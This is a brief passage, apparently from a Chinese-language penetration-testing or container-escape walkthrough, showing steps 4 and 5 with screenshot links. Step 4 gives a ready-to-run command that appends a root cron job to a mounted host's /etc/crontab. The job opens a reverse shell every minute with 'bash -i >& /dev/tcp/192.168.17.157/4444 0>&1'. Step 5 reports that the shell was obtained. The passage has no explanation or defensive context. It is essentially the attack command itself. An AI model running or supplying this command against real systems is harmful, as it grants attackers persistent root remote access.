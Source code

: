 [![](assets/1701826061-e2f65e650aa43d2f970bba0a4b4e60a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025172207-f7a59e8a-7317-1.png)  
Step 4：之后写计划任务

```plain
echo -e "* * * * * root bash -i >& /dev/tcp/192.168.17.157/4444 0>&1\n" >> /mnt/etc/crontab
```

[![](assets/1701826061-a12db7112b9ff0aae3442db3db61544d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025172224-02317568-7318-1.png)  
Step 5：成功反弹 shell
